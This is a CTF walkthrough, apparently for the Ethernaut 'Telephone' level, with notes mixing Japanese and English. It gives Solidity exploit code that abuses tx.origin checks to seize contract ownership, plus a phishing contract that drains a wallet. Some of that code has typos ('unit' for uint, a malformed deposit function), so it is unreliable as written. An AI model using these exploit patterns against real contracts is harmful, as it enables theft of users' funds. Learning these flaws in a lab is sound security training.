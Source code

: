 4. Telephone 
Claim ownership of the contract below to complete this level.


- Remix IDEのコツ
prerequsite: Environmentは必ず 【Injected Web3】でやる<br>
compile時にgas代<br>
deploy時にgas代<br>


まず事前に用意しておいた Telephone.sol をcompile 

TelephoneHack.solを書く,compile => deploy of contract address 
```
contract.address
'0x6A2449B7f82499832F4Ced39a886c75397c77f61'
```

Contract.owner()でowner addressを確認
```
await contract.owner()
'0x0b6F6CE4BCfB70525A31454292017F640C10c768'
```

Deployed Contractからfunction hackContractを呼び出して
自分のウォレットのアドレスを入力
```
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```

changeOwnerできているか確認。my wallet addressになっていたらsuccess!
```
await contract.owner()
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5' //success
```

```solidity
//Telephone.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

//TelephoneHack.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Telephone.sol";

contract TelephoneHack {
    Telephone telContract;

    constructor(address _address) public {
        telContract = Telephone(_address);
    }

    function hackContract(address _address) public {
        telContract.changeOwner(_address);
    }
}
```


While this example may be simple, confusing tx.origin with msg.sender can lead to phishing-style attacks, such as this.

An example of a possible attack is outlined below.

Use tx.origin to determine whose tokens to transfer, e.g.
```
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
```
Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.
```
function () payable {
  token.transfer(attackerAddress, 10000);
}
```
In this scenario, tx.origin will be the victims address (while msg.sender will be the malicious contracts address), 
resulting in the funds being transferred from the victim to the attacker.
```
//PhishingAttack.sol 

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

/*Phishing attack using tx.origin */

//Dale -> Wallet.transfer() (tx.origin = Dale) 
//Dale -> Laura's malicious contract -> Wallet.transfer() (tx.origin = Dale)

contract Wallet {
	address public owner;

	constructor() public { //anyone can deploy 
	owner = msg.sender;
	}

	function deposit() public payable ()

	function transfer(address payable _to, unit _amount) public {//specifier amount 
	require(tx.origin == owner, "Now owner"); //dale withdraw money here, sending transaction

	_to.transfer(_amount); //she can suck out or withdraw all the money inside of this contract
	}

	function getBalance() public view returns(unit) {
	return address(this).balance;
	}
  }

contract Attack {
	address payable public owner;
	Wallet wallet;

	constructor(Wallet _wallet) public {
	wallet = Wallet(_wallet); //Don't write" new" prefix. 
	owner = msg.sender; //laura is gonna be owner
	}

	function attack() public {
	wallet.transfer(owner, address(wallet).balance);//entire balance 
	}//Laura can fool dale calling this attaack, call wallet contract address of wallet.balance
}
```


